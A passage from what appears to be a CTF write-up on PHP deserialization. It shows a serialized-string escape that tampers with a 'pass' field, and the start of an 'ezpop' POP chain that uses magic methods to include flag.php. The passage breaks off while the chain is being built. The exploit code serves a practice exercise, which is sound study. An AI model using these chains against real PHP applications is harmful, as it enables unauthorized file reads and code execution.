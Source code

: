 ```php
//phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp";s:4:"pass";s:8:"escaping";}
$param=serialize($a);
echo $param,"\n";

$profile=unserialize(filter($param));
echo $profile->pass,"\n";
if ($profile->pass=='escaping'){
    echo 1;
}
?>
```

```
O:4:"test":2:{s:4:"user";s:116:"phpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphpphp";s:4:"pass";s:8:"escaping";}";s:4:"pass";s:8:"daydream";}
```

![image-20220212192454775](C:\Users\qte\AppData\Roaming\Typora\typora-user-images\image-20220212192454775.png)

**leve9 ezpop**

```php
<?php

class Modifier {
    private $var="flag.php";
    public function append($value)
    {
        include($value);
        echo $flag;
    }
    public function __invoke(){
        $this->append($this->var);
    }
}

class Show{
    public $source;
    public $str;
    public function __toString(){
        return $this->str->source;
    }
    public function __wakeup(){
        echo $this->source;
    }
}

class Test{
    public $p;
    public function __construct(){
        $this->p = array();
    }

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

$a=new Modifier();
$b=new Show();
$c=new Test();

$b->source=$b;
```